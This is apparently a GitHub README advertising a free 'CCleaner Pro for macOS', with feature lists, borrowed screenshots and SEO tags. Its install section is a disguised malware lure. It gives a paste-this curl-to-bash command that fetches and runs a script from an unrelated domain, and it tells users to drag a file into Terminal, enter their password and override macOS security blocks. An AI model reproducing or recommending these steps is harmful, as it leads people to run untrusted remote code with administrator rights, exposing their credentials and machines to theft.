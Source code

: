 <p align="center">
  <img src="https://camo.githubusercontent.com/1eeffd6101de69f8fcc28967f1010b58e3adcdaac250cce17c39c7801b045c64/68747470733a2f2f626c69747a68616e64656c32342e696d67626f6c742e64652f6d656469612f696d6167652f65342f62362f66312f43436c65616e65722d50726f66657373696f6e616c2d666f722d4d61632e706e67" alt="CCleaner Pro macOS Banner" />
</p>

<h1 align="center">CCleaner Pro for macOS</h1>

<p align="center">
  🧼 Clean up junk, speed up performance, and take control of your Mac with automation and privacy-focused tools.  
  <br><br>
  ✅ Works with macOS Sonoma, Ventura, Monterey  
  ✅ Optimized for Apple Silicon (M1/M2/M3)  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/202" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20CCLEANER%20PRO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download CCleaner Pro for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://www.macworld.com/wp-content/uploads/2025/03/Ccleaner-review.jpg?quality=50&strip=all" alt="CCleaner Pro macOS UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is CCleaner Pro Mac?

**CCleaner Pro for macOS** is an advanced cleaning and optimization utility designed specifically for Mac users who want to maintain top system performance with minimal effort. Unlike basic free tools, the Pro edition brings automation, smart cleaning logic, and enhanced privacy features to keep your Mac running like new.

With modern macOS systems accumulating gigabytes of cache files, logs, duplicates, and digital clutter, CCleaner Pro Mac offers a powerful way to analyze and clean unnecessary system bloat. From browser junk to outdated system files, it helps you regain control over storage while ensuring your personal information stays private.

It’s particularly useful for creatives, developers, or professionals who rely on stable performance and want to avoid manual maintenance. CCleaner Pro also includes a powerful startup optimizer and real-time monitoring. Whether you're on Intel or Apple Silicon – it’s fully optimized for macOS Ventura, Monterey, Sonoma, and beyond.

---

## ✅ Why Choose CCleaner Pro Mac?

- 🧹 **Smart Cleaning** – Automatically detects and removes junk, temporary files, and system cache.  
- 💾 **Free Up Disk Space** – Reclaims gigabytes of storage by removing clutter.  
- 🔒 **Privacy Protection** – Clears browser history, cookies, and trackers.  
- 🧠 **Startup Manager** – Disables unnecessary startup apps to improve boot time.  
- 🧰 **App Uninstaller** – Cleanly removes apps and leftover files.  
- 📆 **Scheduled Cleaning** – Set it once and let it clean automatically.  
- 🔍 **Duplicate Finder** – Identifies and deletes duplicate files.  
- 🔐 **Secure File Deletion** – Military-grade overwrite of deleted files.

---

## 📸 More Screenshots

<p align="center">
  <img src="https://static-cdn.mackeeper.com/mk-blog-upload/images/new_602c1646c4.webp" alt="CCleaner Mac Junk Scan Screenshot" />
  <br><br>
  <img src="https://www.bleepstatic.com/download/screenshots/c/ccleaner-for-mac/analysis.jpg" alt="CCleaner Privacy Settings Mac Screenshot" />
</p>

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow the app manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-System+Cleaner+%26+Optimizer-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Automated+Cleaning+%26+Privacy-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ CCleaner Pro – Keep Your Mac Clean

Thanks for using **CCleaner Pro for macOS**.  
Smart, fast, and automatic cleanup at your fingertips.

---

## 🧭 Usage Context

This utility is intended for personal cleanup and local performance tuning.  
All actions are fully local — no cloud sync, no telemetry.

Built for professionals and home users.  
Not affiliated with Apple or third-party system monitors.

---

## 🔍 Tags

```text
ccleaner pro mac download, ccleaner pro mac, ccleaner for macbook pro, ccleaner mac os x optimizer, macbook system cleaner app, remove junk files ccleaner mac, free up disk space macbook pro, privacy cleaner ccleaner mac, startup manager mac ccleaner pro, secure file deletion mac cleaner, ccleaner app remover mac utility, duplicate file finder mac ccleaner, apple silicon system cleaner tool, automatic mac cleanup scheduler, best mac optimization software
